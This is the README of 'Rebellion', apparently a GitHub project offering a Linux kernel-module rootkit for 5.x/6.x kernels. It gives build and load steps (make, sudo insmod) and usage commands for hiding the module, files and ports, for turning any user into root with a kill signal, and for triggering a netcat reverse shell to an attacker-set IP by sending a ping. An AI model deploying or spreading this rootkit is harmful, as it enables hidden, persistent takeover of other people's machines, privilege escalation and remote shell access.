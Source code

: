 <h1 align="center">「⚔️」 About Rebellion</h1>

<p align="center"><img src="assets/banner.png"></p>

Rebellion is a sophisticated rootkit malware developed specifically for operating systems based on the Linux kernel in the x86 and x86_64 architecture in its 5.x/6.x versions. Rebellion has several features such as self hide/unhide, hide folder/file, hide TCP/UDP port, turning low-privilege users into root and backdoor via ping.

**Note**: Currently, the rootkit is going through a beta phase, where bugs, compilation failures, problems with architectures can be found. I ask that you collaborate with the development of the project to avoid as many problems as possible.

## Features
### Self hide/unhide
Rebellion has the ability to hide/unhide in the system using the `kill -12 0` command.

### Hide folder/file
Rebellion allows you to hide files and directories from a magic prefix defined as `reb_` (`config.h`).
Ex.: `reb_operations/`, `reb_backdoor.elf`.

### Hide TCP/UDP port
Rebellion allows you to hide a TCP/UDP port on your system. The port is defined in the `config.h` file in the `HIDE_PORT` macro.
**Note**: Only works for `netstat` and `lsof` commands. This is a part that is still under development.

### User2Root
When running the `kill -10 0` command with a low-privilege user, Rebellion adds their privileges to `0`, making them a user with `root` permissions on the system.

### Backdoor via ping
Rebellion has a feature that allows you to receive a reverse shell via `netcat` (it is important that it is installed) by sending an ICMP packet via `ping` to your IP and port defined in the `config.h` file in the macros `YOUR_SRV_IP` and `YOUR_SRV_PORT`.

* Self hide/unhide
* Hide folder/file
* Hide TCP/UDP port
* User2Root
* Backdoor via ping

## Tested Kernel Versions
| Distro | Kernel Details |
| ----------- | ----------- |
| Debian GNU/Linux 12 (bookworm) | 6.1.0-32-amd64 (2025-03-06) x86_64 GNU/Linux |
| Ubuntu 22.04 (Jammy Jellyfish) | 5.15.0-25-generic Mar 30 15:54:22 UTC 2022 x86_64 GNU/Linux |

## Build & Run
```
git clone https://github.com/brosck/Rebellion
cd Rebellion/src
# edit config.h file
make
sudo insmod rebellion.ko
```

## Usage
### Self hide/unhide
```
kill -12 0
```

### Hide folder/file
```
mkdir reb_operations
cd reb_operations
echo test > reb_test.txt
```

### Hide TCP/UDP port
```
# edit HIDE_PORT macro in config.h
netstat -tunlp | grep 1234
```

### User2Root
```
kill -10 0
```

### Backdoor via ping
Target machine:
```
# edit YOUR_SRV_IP and YOUR_SRV_PORT macro in config.h and start LKM
```

Your machine (1º terminal):
```
nc -lnvp 1234
```

Your machine (2º terminal):
```
sudo ping -c 1 <TARGET IP>
```

## Bugs and Improvements
If you have any suggestions for improvements or want to report a bug, feel free to create and report an [issue](https://github.com/brosck/Rebellion/issues) or [pull request](https://github.com/brosck/Rebellion/issues), the aim is always to improve the tool with different features.
